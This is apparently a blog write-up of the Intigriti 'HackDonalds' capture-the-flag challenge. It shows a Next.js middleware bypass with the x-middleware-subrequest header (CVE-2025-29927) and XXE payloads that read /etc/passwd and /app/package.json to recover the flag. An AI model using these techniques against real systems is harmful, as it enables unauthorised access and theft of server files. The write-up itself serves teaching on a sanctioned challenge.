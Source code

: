 ```yaml
---
title: Intigriti Challenge - HackDonalds
date: 2025-04-25
tags: [bug bounty, challenge, ctf]
categories: [Bug Bounty, CTF Writeups]
author: 2Fa0n
img_path: /assets/img/intigriti-challenge-hackdonalds
image: /assets/img/intigriti-challenge-hackdonalds/intigriti_banner.png
---
```


# Intigriti Challenge - HackDonalds 🍔
**Author:** Basetin, CryptoCat <br>
**Target:** [HackDonalds 🍔](https://hackdonalds.intigriti.io)

## Description
Find the FLAG 🚩

## Solution
After going through the website, we can see there just a simple Donalds homepage and food menu. <br>

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_1.png)
![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_2.png)

When we click at the `ADMIN` button, we see a login form with `secret sauce password`. <br>

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_3.png)

After enter some common credentials, we can not login to admin panel. Let's check the tech stack of the website. <br>

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_4.png)

We found `Next.js 13.2.0` and checking twitter found a really interesting blog about [CVE-2025-29927](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware), which is a critical vulnerability in Next.js from `11.1.4` up to `15.1.7` which allows middleware bypass with a specific header `x-middleware-subrequest`.

Let's exploit this with `x-middleware-subrequest` header. We need to a following header into our request: `x-middleware-subrequest: middleware`. <br>
Go to `Burp Suite settings` and look for `HTTP match and replace rules` and add a new rule:

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_5.png)
![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_6.png)

After that, we can refresh and see the admin panel. <br>

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_7.png)

When we click on to these 4 super secret admin area, we can only click to `Ice Cream Machines` and redirect us to `/ice-cream-machines` page. <br>

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_8.png)

Then we `View Settings` and see a `XML Configuration Settings` file. <br>

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_9.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<machine>
  <id>1</id>
  <name>Ice Cream Machine</name>
  <temperature>-18</temperature>
  <mixLevel>75</mixLevel>
  <lastMaintenance>2025-03-15</lastMaintenance>
  <cleaningSchedule>Daily</cleaningSchedule>
</machine>
```

Normally when facing the XML file, we can think about the `XXE` vulnerability. <br>
Let's try some payload to test information disclosure. <br>
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE machine [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<machine>
  <id>1</id>
  <name>&xxe;</name>
  <temperature>-18</temperature>
  <mixLevel>75</mixLevel>
  <lastMaintenance>2025-03-15</lastMaintenance>
  <cleaningSchedule>Daily</cleaningSchedule>
</machine>
```

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_10.png)

We are able to retrieve the `/etc/passwd` file. <br>
Hmm, so how to read the flag? <br>
After searching on google, we found a [Project Structure and organization](https://nextjs.org/docs/app/getting-started/project-structure) in `Next.js`. We go through and found flag in `/app/package.json` file. <br>

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_11.png)
![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_12.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE machine [
  <!ENTITY xxe SYSTEM "file:///app/package.json">
]>
<machine>
  <id>1</id>
  <name>&xxe;</name>
  <temperature>-18</temperature>
  <mixLevel>75</mixLevel>
  <lastMaintenance>2025-03-15</lastMaintenance>
  <cleaningSchedule>Daily</cleaningSchedule>
</machine>
```

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_13.png)

There we go the flag in `package.json` which is a common file in Node. <br>

**Flag:** `INTIGRITI{XXE_1n_Ic3Cr34m_M4ch1n3s}`
